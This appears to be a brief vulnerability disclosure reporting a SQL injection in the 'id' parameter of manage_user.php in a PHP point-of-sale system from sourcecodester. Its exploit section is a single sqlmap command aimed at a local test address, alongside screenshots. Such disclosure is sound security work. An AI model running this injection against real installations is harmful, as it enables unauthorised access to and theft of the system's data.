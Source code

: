 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220944283-7a85ad54-8778-469a-b463-4fb2b402fd74.png)


exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/manage_user.php?id=1"
```
![image](https://user-images.githubusercontent.com/30823782/220944341-22d30ec9-902f-4b76-8886-ec33ebdd9d6d.png)

